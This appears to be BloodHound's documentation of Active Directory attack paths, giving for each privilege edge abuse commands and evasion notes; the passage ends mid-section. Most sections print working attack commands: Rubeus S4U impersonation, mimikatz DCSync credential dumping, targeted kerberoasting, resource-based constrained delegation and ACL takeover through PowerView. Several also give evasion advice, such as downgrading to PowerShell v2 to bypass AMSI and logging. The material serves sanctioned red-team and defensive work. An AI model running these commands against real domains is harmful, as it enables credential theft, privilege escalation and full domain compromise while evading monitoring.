Prior to executing operating system commands through SQL Server, review the audit configuration
and choose a command execution method that is not being monitored.
            
View audits:

::

  SELECT * FROM sys.dm_server_audit_status

View server specifications:

::

  SELECT audit_id, 
  a.name as audit_name, 
  s.name as server_specification_name, 
  d.audit_action_name, 
  s.is_state_enabled, 
  d.is_group, 
  d.audit_action_id, 
  s.create_date, 
  s.modify_date 
  FROM sys.server_audits AS a 
  JOIN sys.server_audit_specifications AS s 
  ON a.audit_guid = s.audit_guid 
  JOIN sys.server_audit_specification_details AS d 
  ON s.server_specification_id = d.server_specification_id

View database specifications:

::

  SELECT a.audit_id, 
  a.name as audit_name, 
  s.name as database_specification_name, 
  d.audit_action_name, 
  d.major_id,
  OBJECT_NAME(d.major_id) as object,
  s.is_state_enabled, 
  d.is_group, s.create_date, 
  s.modify_date, 
  d.audited_result 
  FROM sys.server_audits AS a 
  JOIN sys.database_audit_specifications AS s 
  ON a.audit_guid = s.audit_guid 
  JOIN sys.database_audit_specification_details AS d 
  ON s.database_specification_id = d.database_specification_id

If server audit specifications are configured on the SQL Server, event ID 15457 logs may be
created in the Windows Application log when SQL Server level configurations are changed to
facilitate OS command execution.

If database audit specifications are configured on the SQL Server, event ID 33205 logs may
be created in the Windows Application log when Agent and database level configuration changes
are made.

A summary of the what will show up in the logs, along with the TSQL queries for viewing and
configuring audit configurations can be found at https://github.com/NetSPI/PowerUpSQL/blob/master/templates/tsql/Audit%20Command%20Execution%20Template.sql

Author: Scott Sutherland

References
----------

* https://github.com/NetSPI/PowerUpSQL/wiki
* https://www.slideshare.net/nullbind/powerupsql-2018-blackhat-usa-arsenal-presentation
* https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#sqlserver
* https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/configure-windows-service-accounts-and-permissions?view=sql-server-2017
* https://blog.netspi.com/finding-sensitive-data-domain-sql-servers-using-powerupsql/

|

----

|

AllowedToDelegate
^^^^^^^^^^^^^^^^^

The constrained delegation primitive allows a principal to authenticate as any user to specific
services (found in the msds-AllowedToDelegateTo LDAP property in the source node tab) on the
target computer. That is, a node with this privilege can impersonate any domain principal
(including Domain Admins) to the specific service on the target host. One caveat- impersonated
users can not be in the "Protected Users" security group or otherwise have delegation privileges
revoked.
            
An issue exists in the constrained delegation where the service name (sname) of the resulting
ticket is not a part of the protected ticket information, meaning that an attacker can modify
the target service name to any service of their choice. For example, if msds-AllowedToDelegateTo
is "HTTP/host.domain.com", tickets can be modified for LDAP/HOST/etc. service names, resulting
in complete server compromise, regardless of the specific service listed.

Abuse Info
-----------

Abusing this privilege can utilize Benjamin Delpy’s Kekeo project, proxying in traffic generated
from the Impacket library, or using the Rubeus project's s4u abuse.

In the following example, *victim* is the attacker-controlled account (i.e. the hash is known)
that is configured for constrained delegation. That is, *victim* has the "HTTP/PRIMARY.testlab.local"
service principal name (SPN) set in its msds-AllowedToDelegateTo property. The command first requests
a TGT for the *victim* user and executes the S4U2self/S4U2proxy process to impersonate the "admin"
user to the "HTTP/PRIMARY.testlab.local" SPN. The alternative sname "cifs" is substituted in to the
final service ticket and the ticket is submitted to the current logon session. This grants the attacker
the ability to access the file system of PRIMARY.testlab.local as the "admin" user.

::

  Rubeus.exe s4u /user:victim /rc4:2b576acbe6bcfda7294d6bd18041b8fe /impersonateuser:admin /msdsspn:"HTTP/PRIMARY.testlab.local" /altservice:cifs /ptt

Opsec Considerations
--------------------

As mentioned in the abuse info, in order to currently abuse this primitive the Rubeus C# assembly needs
to be executed on some system with the ability to send/receive traffic in the domain. See the References
for more information.

References
----------

* https://github.com/GhostPack/Rubeus#s4u
* https://labs.mwrinfosecurity.com/blog/trust-years-to-earn-seconds-to-break/
* https://blog.harmj0y.net/activedirectory/s4u2pwnage/
* https://twitter.com/gentilkiwi/status/806643377278173185
* https://www.coresecurity.com/blog/kerberos-delegation-spns-and-more
* https://blog.harmj0y.net/redteaming/from-kekeo-to-rubeus/
* https://blog.harmj0y.net/redteaming/another-word-on-delegation/

|

-----------

|

DCSync
^^^^^^^^^^^^^^^^^^^^^^^^

This edge represents the combination of GetChanges and GetChangesAll. The combination of both these privileges grants a principal the ability to perform the DCSync attack.

Abuse Info
-----------

With both GetChanges and GetChangesAll privileges in BloodHound, you may perform a dcsync attack to
get the password hash of an arbitrary principal using mimikatz:

::

  lsadump::dcsync /domain:testlab.local /user:Administrator

You can also perform the more complicated ExtraSids attack to hop domain trusts. For information on
this see the blog post by harmj0y in the references tab.

Opsec Considerations
--------------------

For detailed information on detection of DCSync as well as opsec considerations, see the ADSecurity
post in the references section below.

References
----------

* https://adsecurity.org/?p=1729
* https://blog.harmj0y.net/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/

|

----

|

GetChanges/GetChangesAll
^^^^^^^^^^^^^^^^^^^^^^^^

The combination of both these privileges grants a principal the ability to perform the DCSync attack.

Abuse Info
-----------

With both GetChanges and GetChangesAll privileges in BloodHound, you may perform a dcsync attack to
get the password hash of an arbitrary principal using mimikatz:
            
::

  lsadump::dcsync /domain:testlab.local /user:Administrator

You can also perform the more complicated ExtraSids attack to hop domain trusts. For information on
this see the blog post by harmj0y in the references tab.

Opsec Considerations
--------------------

For detailed information on detection of DCSync as well as opsec considerations, see the ADSecurity
post in the references section below.

References
----------

* https://adsecurity.org/?p=1729
* https://blog.harmj0y.net/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/

|

---------

|

GenericAll
^^^^^^^^^^

This is also known as full control. This privilege allows the trustee to manipulate the target object
however they wish.

Abuse Info
-----------

**With GenericAll Over a Group:**

Full control of a group allows you to directly modify group membership of the group. For full abuse
info in that scenario, see the Abuse Info section under the AddMembers edge

**With GenericAll Over a User:**

**Targeted Kerberoast**
A targeted kerberoast attack can be performed using PowerView’s Set-DomainObject along with
Get-DomainSPNTicket. 

You may need to authenticate to the Domain Controller as the user with full control over the target
user if you are not running a process as that user. To do this in conjunction with Set-DomainObject,
first create a PSCredential object (these examples comes from the PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)

Then, use Set-DomainObject, optionally specifying $Cred if you are not already running a process as
the user with full control over the target user.

::

  Set-DomainObject -Credential $Cred -Identity harmj0y -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}

After running this, you can use Get-DomainSPNTicket as follows:
    
::

  Get-DomainSPNTicket -Credential $Cred harmj0y | fl

The recovered hash can be cracked offline using the tool of your choice. Cleanup of the ServicePrincipalName
can be done with the Set-DomainObject command:

::

  Set-DomainObject -Credential $Cred -Identity harmj0y -Clear serviceprincipalname

**Force Change Password**

You can also reset user passwords with full control over user objects. For full abuse info about this attack,
see the information under the ForceChangePassword edge

**With GenericAll Over a Computer**

Full control of a computer object is abusable when the computer’s local admin account credential is
controlled with LAPS. The clear-text password for the local administrator account is stored in an extended
attribute on the computer object called ms-Mcs-AdmPwd. With full control of the computer object, you may
have the ability to read this attribute, or grant yourself the ability to read the attribute by modifying
the computer object’s security descriptor.
    
Alternatively, Full control of a computer object can be used to perform a resource based constrained
delegation attack. 

Abusing this primitive is currently only possible through the Rubeus project.

First, if an attacker does not control an account with an SPN set, Kevin Robertson's Powermad project can
be used to add a new attacker-controlled computer account:

::

  New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)

PowerView can be used to then retrieve the security identifier (SID) of the newly created computer account:

::

  $ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid

We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the
binary bytes for the new DACL/ACE:

::

  $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
  $SDBytes = New-Object byte[] ($SD.BinaryLength)
  $SD.GetBinaryForm($SDBytes, 0)

Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity
field of the comptuer account we're taking over, again using PowerView in this case:

::

  Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

We can then use Rubeus to hash the plaintext password into its RC4_HMAC form:

::

  Rubeus.exe hash /password:Summer2018!

And finally we can use Rubeus' *s4u* module to get a service ticket for the service name (sname) we
want to "pretend" to be "admin" for. This ticket is injected (thanks to /ptt), and in this case grants
us access to the file system of the TARGETCOMPUTER:

::

  Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt

**With GenericAll Over a Domain Object**

Full control of a domain object grants you both DS-Replication-Get-Changes as well as DS-Replication-Get-Changes-All
rights. The combination of these rights allows you to perform the dcsync attack using mimikatz. To grab the
credential of the user harmj0y using these rights:

::

  lsadump::dcsync /domain:testlab.local /user:harmj0y

See a video walk through of how to execute this attack here:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/RUbADHcBLKg?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

**With GenericAll Over a GPO**

With full control of a GPO, you may make modifications to that GPO which will then apply to the users and
computers affected by the GPO. Select the target object you wish to push an evil policy down to, then use
the gpedit GUI to modify the GPO, using an evil policy that allows item-level targeting, such as a new
immediate scheduled task. Then wait at least 2 hours for the group policy client to pick up and execute
the new evil policy. See the references tab for a more detailed write up on this abuse

**With GenericAll Over an OU**

With full control of an OU, you may add a new ACE on the OU that will inherit down to the objects under that
OU. Below are two options depending on how targeted you choose to be in this step:

Generic Descendent Object Takeover:

The simplest and most straight forward way to abuse control of the OU is to apply a GenericAll ACE on the OU
that will inherit down to all object types. Again, this can be done using PowerView. This time we will use
the New-ADObjectAccessControlEntry, which gives us more control over the ACE we add to the OU.

First, we need to reference the OU by its ObjectGUID, not its name. You can find the ObjectGUID for the OU
in the BloodHound GUI by clicking the OU, then inspecting the *objectid* value

Next, we will fetch the GUID for all objects. This should be '00000000-0000-0000-0000-000000000000':

::

  $Guids = Get-DomainGUIDMap
  $AllObjectsPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'All'} | select -ExpandProperty name

Then we will construct our ACE. This command will create an ACE granting the "JKHOLER" user full control of
all descendant objects:

::

  ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity 'JKOHLER' -Right GenericAll -AccessControlType Allow -InheritanceType All -InheritedObjectType $AllObjectsPropertyGuid

Finally, we will apply this ACE to our target OU:

::

  $OU = Get-DomainOU -Raw (OU GUID)
  $DsEntry = $OU.GetDirectoryEntry()
  $dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
  $dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
  $dsEntry.PsBase.CommitChanges()

Now, the "JKOHLER" user will have full control of all descendent objects of each type.

Targeted Descendent Object Takeoever:

If you want to be more targeted with your approach, it is possible to specify precisely what right you want
to apply to precisely which kinds of descendent objects. You could, for example, grant a user
"ForceChangePassword" privilege against all user objects, or grant a security group the ability to read every
GMSA password under a certain OU. Below is an example taken from PowerView's help text on how to grant the
"ITADMIN" user the ability to read the LAPS password from all computer objects in the "Workstations" OU:

::

  $Guids = Get-DomainGUIDMap
  $AdmPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'ms-Mcs-AdmPwd'} | select -ExpandProperty name
  $CompPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'Computer'} | select -ExpandProperty name
  $ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity itadmin -Right ExtendedRight,ReadProperty -AccessControlType Allow -ObjectType $AdmPropertyGuid -InheritanceType All -InheritedObjectType $CompPropertyGuid
  $OU = Get-DomainOU -Raw Workstations
  $DsEntry = $OU.GetDirectoryEntry()
  $dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
  $dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
  $dsEntry.PsBase.CommitChanges()

Opsec Considerations
--------------------

.. todo:: Add opsec considerations here

References
----------

* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://www.youtube.com/watch?v=z8thoG7gPd0
* https://adsecurity.org/?p=1729
* https://blog.harmj0y.net/activedirectory/targeted-kerberoasting/
* https://posts.specterops.io/a-red-teamers-guide-to-gpos-and-ous-f0d03976a31e
* https://eladshamir.com/2019/01/28/Wagging-the-Dog.html
* https://github.com/GhostPack/Rubeus#s4u
* https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff
* https://blog.harmj0y.net/redteaming/another-word-on-delegation/
* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://github.com/Kevin-Robertson/Powermad#new-machineaccount

|

----

|

WriteDacl
^^^^^^^^^

With write access to the target object's DACL, you can grant yourself any privilege you want
on the object.

Abuse Info
-----------

With the ability to modify the DACL on the target object, you can grant yourself almost any
privilege against the object you wish.

**Groups**

With WriteDACL over a group, grant yourself the right to add members to the group:

::

  Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights WriteMembers

See the abuse info for AddMembers edge for more information about execution the attack from
there.

**Users**

With WriteDACL over a user, grant yourself full control of the user object:

::

  Add-DomainObjectAcl -TargetIdentity harmj0y -Rights All

See the abuse info for ForceChangePassword and GenericAll over a user for more infromation
about how to continue from there.

**Computers**

With WriteDACL over a computer object, grant yourself full control of the computer
object:

::

  Add-DomainObjectAcl -TargetIdentity windows1 -Rights All

Then either read the LAPS password attribute for the computer or perform resource-based
constrained delegation against the target computer.

**Domains**

With WriteDACL against a domain object, grant yourself the ability to DCSync:

::

  Add-DomainObjectAcl -TargetIdentity testlab.local -Rights DCSync

Then perform the DCSync attack.

**GPOs**

With WriteDACL over a GPO, grant yourself full control of the GPO:

::

  Add-DomainObjectAcl -TargetIdentity TestGPO -Rights All

Then edit the GPO to take over an object the GPO applies to.

**OUs**

With WriteDACL over an OU, grant yourself full control of the OU:

::

  Add-DomainObjectAcl -TargetIdentity (OU GUID) -Rights All

Then add a new ACE to the OU that inherits down to child objects to take over
those child objects.

Opsec Considerations
--------------------

When using the PowerView functions, keep in mind that PowerShell v5 introduced several security
mechanisms that make it much easier for defenders to see what's going on with PowerShell in their
network, such as script block logging and AMSI. You can bypass those security mechanisms by
downgrading to PowerShell v2, which all PowerView functions support.

Modifying permissions on an object will generate 4670 and 4662 events on the domain controller
that handled the request.
            
Additional opsec considerations depend on the target object and how to take advantage of this
privilege.

References
----------

* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://www.youtube.com/watch?v=z8thoG7gPd0
* https://eladshamir.com/2019/01/28/Wagging-the-Dog.html
* https://github.com/GhostPack/Rubeus#s4u
* https://gist.github.com/HarmJ0y/224dbfef83febdaf885a8451e40d52ff
* https://blog.harmj0y.net/redteaming/another-word-on-delegation/
* https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
* https://github.com/Kevin-Robertson/Powermad#new-machineaccount
* https://docs.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectorysecurityinheritance?view=netframework-4.8

|

----

|

GenericWrite
^^^^^^^^^^^^
Generic Write access grants you the ability to write to any non-protected attribute on the target
object, including "members" for a group, and "serviceprincipalnames" for a user

Abuse Info
-----------

**Users**

With GenericWrite over a user, perform a targeted kerberoasting attack. See the abuse section
under the GenericAll edge for more information

**Groups**

With GenericWrite over a group, add yourself or another principal you control to the group.
See the abuse info under the AddMembers edge for more information

**Computers**

With GenericWrite over a computer, perform resource-based constrained delegation against the
computer. See the GenericAll edge abuse info for more information about that attack.

**GPO**

With GenericWrite on a GPO, you may make modifications
to that GPO which will then apply to the users and
computers affected by the GPO. Select the target object
you wish to push an evil policy down to, then use the
gpedit GUI to modify the GPO, using an evil policy that
allows item-level targeting, such as a new immediate
scheduled task. Then wait for the group
policy client to pick up and execute the new evil
policy. See the references tab for a more detailed write
up on this abuse.

This edge can be a false positive in rare scenarios. If you have 
GenericWrite on the GPO with 'This object only' (no inheritance) 
and no other permissions in the ACL, it is not possible to add or 
modify settings of the GPO. The GPO's settings are stored in 
SYSVOL under a folder for the given GPO. Therefore, you need write 
access to child objects of this folder or create child objects 
permission. The security descriptor of the GPO is reflected on 
the folder, meaning permissions to write child items on the GPO
are required.

Opsec Considerations
--------------------

This will depend on which type of object you are targetting and the attack you perform. See
the relevant edge for opsec considerations for the actual attack you perform.

References
----------

https://www.youtube.com/watch?v=z8thoG7gPd0

|

----

|

WriteOwner
^^^^^^^^^^

Object owners retain the ability to modify object security descriptors, regardless of
permissions on the object's DACL.

This clip shows an example of abusing this edge:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/fqYoOoghqdE?t=1619?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

Abuse Info
-----------

To change the ownership of the object, you may use the Set-DomainObjectOwner function in
PowerView.

To abuse this privilege with PowerView's Set-DomainObjectOwner, first import PowerView
into your agent session or into a PowerShell instance at the console. You may need to
authenticate to the Domain Controller as the user with the password reset privilege if
you are not running a process as that user.

To do this in conjunction with Set-DomainObjectOwner, first create a PSCredential object
(these examples comes from the PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)

Then, use Set-DomainObjectOwner, optionally specifying $Cred if you are not already
running a process as the user with this privilege:

::

  Set-DomainObjectOwner -Credential $Cred -TargetIdentity "Domain Admins" -OwnerIdentity harmj0y

Now, with ownership of the object, you may modify the DACL of the object however you wish.
For more information about that, see the WriteDacl edge section.

Opsec Considerations
--------------------

This depends on the target object and how to take advantage of this privilege.

When using the PowerView functions, keep in mind that PowerShell v5 introduced several security
mechanisms that make it much easier for defenders to see what's going on with PowerShell in
their network, such as script block logging and AMSI. You can bypass those security mechanisms
by downgrading to PowerShell v2, which all PowerView functions support.

Modifying permissions on an object will generate 4670 and 4662 events on the domain controller
that handled the request.

References
----------

https://www.youtube.com/watch?v=z8thoG7gPd0

|

----

|

WriteSPN
^^^^^^^^

The ability to write directly to the servicePrincipalNames attribute on a user object.
Writing to this property gives you the opportunity to perform a targeted kerberoasting
attack against that user.

Abuse Info
------------

A targeted kerberoast attack can be performed using PowerView’s Set-DomainObject along with
Get-DomainSPNTicket. 

You may need to authenticate to the Domain Controller as the user with full control over the target
user if you are not running a process as that user. To do this in conjunction with Set-DomainObject,
first create a PSCredential object (these examples comes from the PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)

Then, use Set-DomainObject, optionally specifying $Cred if you are not already running a process as
the user with full control over the target user.

::

  Set-DomainObject -Credential $Cred -Identity harmj0y -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}

After running this, you can use Get-DomainSPNTicket as follows:
    
::

  Get-DomainSPNTicket -Credential $Cred harmj0y | fl

The recovered hash can be cracked offline using the tool of your choice. Cleanup of the ServicePrincipalName
can be done with the Set-DomainObject command:

::

  Set-DomainObject -Credential $Cred -Identity harmj0y -Clear serviceprincipalname

Opsec Considerations
--------------------

Modifying the servicePrincipalName attribute will not, by default, generate an event on the Domain Controller.
Your target may have configured logging on users to generate 5136 events whenever a directory service is
modified, but this configuration is very rare.

References
----------

https://www.harmj0y.net/redteaming/kerberoasting-revisited/

|

----

|

Owns
^^^^

Object owners retain the ability to modify object security descriptors, regardless of permissions
on the object's DACL

This clip shows an example of abusing object ownership:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/fqYoOoghqdE?t=1619?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

Abuse Info
------------

With ownership of the object, you may modify the DACL of the object however you wish.
For more information about that, see the WriteDacl edge section.

Opsec Considerations
--------------------

This depends on the target object and how to take advantage of this privilege.

When using the PowerView functions, keep in mind that PowerShell v5 introduced several security
mechanisms that make it much easier for defenders to see what's going on with PowerShell in
their network, such as script block logging and AMSI. You can bypass those security mechanisms
by downgrading to PowerShell v2, which all PowerView functions support.

Modifying permissions on an object will generate 4670 and 4662 events on the domain controller
that handled the request.

References
----------

https://www.youtube.com/watch?v=z8thoG7gPd0

|

----

|

AddKeyCredentialLink
^^^^^^^^^^^^^^^^^^^^

The ability to write to the "msds-KeyCredentialLink" property on a user or computer.
Writing to this property allows an attacker to create "Shadow Credentials" on the
object and authenticate as the principal using kerberos PKINIT.

Abuse Info
------------

To abuse this privilege, use Whisker:
    
::

    Whisker.exe add /target:<TargetPrincipal>
    
For other optional parameters, view the Whisker documentation.

Opsec Considerations
--------------------

Executing the attack will generate a 5136 (A directory object was modified) event
at the domain controller if an appropriate SACL is in place on the target object.
    
If PKINIT is not common in the environment, a 4768 (Kerberos authentication ticket
(TGT) was requested) ticket can also expose the attacker.

References
----------

https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab

|

----

|

ReadLAPSPassword
^^^^^^^^^^^^^^^^^^^^^^^^

This privilege allows you to read the LAPS password from a computer

Abuse Info
-----------
You may need to authenticate to the Domain Controller as the user with full control over the target
user if you are not running a process as that user. To do this in conjunction with Get-DomainObject,
first create a PSCredential object (these examples comes from the PowerView help documentation):

::

  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
  $Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)

Then, use Get-DomainObject, optionally specifying $Cred if you are not already running a process as
the user with full control over the target user.

::

  Get-DomainObject -Credential $Cred -Identity windows10 -Properties "ms-mcs-AdmPwd",name


Opsec Considerations
--------------------

Reading properties from LDAP is extremely low risk, and can only be found using monitoring of LDAP queries.

References
----------

* https://www.specterops.io/assets/resources/an_ace_up_the_sleeve.pdf
* https://adsecurity.org/?p=3164

|

----

|

ReadGMSAPassword
^^^^^^^^^^^^^^^^^^^^^^^^

This privilege allows you to read the password for a Group Managed Service Account (GMSA).
Group Managed Service Accounts are a special type of Active Directory object, where the password
for that object is mananaged by and automatically changed by Domain Controllers on a set interval
(check the MSDS-ManagedPasswordInterval attribute).

The intended use of a GMSA is to allow certain computer accounts to retrieve the password for the GMSA,
then run local services as the GMSA. An attacker with control of an authorized principal may abuse that
privilege to impersonate the GMSA.`;

Abuse Info
-----------
There are several ways to abuse the ability to read the GMSA password.
The most straight forward abuse is possible when the GMSA is currently logged on to a computer, which is the intended behavior for a GMSA.

If the GMSA is logged on to the computer account which is granted the ability to retrieve the GMSA's password,
simply steal the token from the process running as the GMSA, or inject into that process.

If the GMSA is not logged onto the computer, you may create a scheduled task or service set to run as the GMSA.
The computer account will start the sheduled task or service as the GMSA, and then you may abuse the GMSA
logon in the same fashion you would a standard user running processes on the machine (see the "HasSession" help modal for more details).
Finally, it is possible to remotely retrieve the password for the GMSA and convert that password to its equivalent NT hash,
then perform overpass-the-hash to retrieve a Kerberos ticket for the GMSA:

1. Build GMSAPasswordReader.exe from its source: https://github.com/rvazarkar/GMSAPasswordReader

2. Drop GMSAPasswordReader.exe to disk. If using Cobalt Strike, load and run this binary using execute-assembly

3. Use GMSAPasswordReader.exe to retrieve the NT hash for the GMSA. You may have more than one NT hash come back, one for the
"old" password and one for the "current" password. It is possible that either value is valid:

::

  gmsapasswordreader.exe --accountname gmsa-jkohler

At this point you are ready to use the NT hash the same way you would with a regular user account.
You can perform pass-the-hash, overpass-the-hash, or any other technique that takes an NT hash as an input.


Opsec Considerations
--------------------

When abusing a GMSA that is already logged onto a system, you will have the same opsec considerations as when
abusing a standard user logon. For more information about that, see the "HasSession" modal's opsec considerations tab.

When retrieving the GMSA password from Active Directory, you may generate a 4662 event on the Domain Controller;
however, that event will likely perfectly resemble a legitimate event if you request the password from the same
context as a computer account that is already authorized to read the GMSA password.

References
----------

* https://www.dsinternals.com/en/retrieving-cleartext-gmsa-passwords-from-active-directory/
* https://www.powershellgallery.com/packages/DSInternals/
* https://github.com/markgamache/gMSA/tree/master/PSgMSAPwd
* https://adsecurity.org/?p=36
* https://adsecurity.org/?p=2535
* https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4662

|

----

|

Contains
^^^^^^^^

GPOs linked to a container apply to all objects that are contained by the container. Additionally,
ACEs set on a parent OU may inherit down to child objects.

Abuse Info
-----------

With control of an OU, you may add a new ACE on the OU that will inherit down to the objects under that
OU. Below are two options depending on how targeted you choose to be in this step:

Generic Descendent Object Takeover:

The simplest and most straight forward way to abuse control of the OU is to apply a GenericAll ACE on the OU
that will inherit down to all object types. Again, this can be done using PowerView. This time we will use
the New-ADObjectAccessControlEntry, which gives us more control over the ACE we add to the OU.

First, we need to reference the OU by its ObjectGUID, not its name. You can find the ObjectGUID for the OU
in the BloodHound GUI by clicking the OU, then inspecting the *objectid* value

Next, we will fetch the GUID for all objects. This should be '00000000-0000-0000-0000-000000000000':

::

  $Guids = Get-DomainGUIDMap
  $AllObjectsPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'All'} | select -ExpandProperty name

Then we will construct our ACE. This command will create an ACE granting the "JKHOLER" user full control of
all descendant objects:

::

  ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity 'JKOHLER' -Right GenericAll -AccessControlType Allow -InheritanceType All -InheritedObjectType $AllObjectsPropertyGuid

Finally, we will apply this ACE to our target OU:

::

  $OU = Get-DomainOU -Raw (OU GUID)
  $DsEntry = $OU.GetDirectoryEntry()
  $dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
  $dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
  $dsEntry.PsBase.CommitChanges()

Now, the "JKOHLER" user will have full control of all descendent objects of each type.

Targeted Descendent Object Takeoever:

If you want to be more targeted with your approach, it is possible to specify precisely what right you want
to apply to precisely which kinds of descendent objects. You could, for example, grant a user
"ForceChangePassword" privilege against all user objects, or grant a security group the ability to read every
GMSA password under a certain OU. Below is an example taken from PowerView's help text on how to grant the
"ITADMIN" user the ability to read the LAPS password from all computer objects in the "Workstations" OU:

::

  $Guids = Get-DomainGUIDMap
  $AdmPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'ms-Mcs-AdmPwd'} | select -ExpandProperty name
  $CompPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'Computer'} | select -ExpandProperty name
  $ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity itadmin -Right ExtendedRight,ReadProperty -AccessControlType Allow -ObjectType $AdmPropertyGuid -InheritanceType All -InheritedObjectType $CompPropertyGuid
  $OU = Get-DomainOU -Raw Workstations
  $DsEntry = $OU.GetDirectoryEntry()
  $dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
  $dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
  $dsEntry.PsBase.CommitChanges()

Opsec Considerations
--------------------

.. todo:: add opsec considerations

References
----------

* https://wald0.com/?p=179
* https://blog.cptjesus.com/posts/bloodhound15

|

----

|

AllExtendedRights
^^^^^^^^^^^^^^^^^

Extended rights are special rights granted on objects which allow reading of privileged
attributes, as well as performing special actions.

Abuse Info
-----------

**Users**

Having this privilege over a user grants the ability to reset the user's password. For
more information about that, see the ForceChangePassword edge section

**Groups**

This privilege grants the ability to modify group memberships. For more information on
that, see the AddMembers edge section

**Computers**

You may perform resource-based constrained delegation with this privilege over a computer
object. For more information about that, see the GenericAll edge section.

Opsec Considerations
--------------------

This will depend on the actual attack performed. See the particular opsec considerations
sections for the ForceChangePassword, AddMembers, and GenericAll edges for more info

References
----------

https://www.youtube.com/watch?v=z8thoG7gPd0

|

----

|

GPLink
^^^^^^

A linked GPO applies its settings to objects in the linked container.

Abuse Info
-----------

This edge helps you understand which object a GPO applies to, and so the actual abuse
is actually being performed against the GPO this edge originates from. For more info
about that abuse, see the GenericAll edge section for when you have full control over
a GPO.

Opsec Considerations
--------------------

See the GenericAll edge section for opsec considerations

References
----------

https://wald0.com/?p=179

|

----

|

AllowedToAct
^^^^^^^^^^^^

An attacker can use this account to execute a modified S4U2self/S4U2proxy abuse chain to
impersonate any domain user to the target computer system and receive a valid service
ticket "as" this user.

One caveat is that impersonated users can not be in the "Protected Users" security group
or otherwise have delegation privileges revoked. Another caveat is that the principal
added to the msDS-AllowedToActOnBehalfOfOtherIdentity DACL *must* have a service principal
name (SPN) set in order to successfully abuse the S4U2self/S4U2proxy process. If an
attacker does not currently control an account with a SPN set, an attacker can abuse the
default domain MachineAccountQuota settings to add a computer account that the attacker
controls via the Powermad project.

This clip demonstrates how to abuse this edge:

.. raw:: html

    <div style="text-align: center; margin-bottom: 2em;">
    <iframe width="100%" height="350" src="https://www.youtube.com/embed/fqYoOoghqdE?t=1814?rel=0" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
    </div>

Abuse Info
-----------

Abusing this primitive is currently only possible through the Rubeus project.
            
To use this attack, the controlled account MUST have a service principal name set, along
with access to either the plaintext or the RC4_HMAC hash of the account.

If the plaintext password is available, you can hash it to the RC4_HMAC version using Rubeus:

::

  Rubeus.exe hash /password:Summer2018!

Use Rubeus' *s4u* module to get a service ticket for the service name (sname) we want to
"pretend" to be "admin" for. This ticket is injected (thanks to /ptt), and in this case
grants us access to the file system of the TARGETCOMPUTER:
    
::

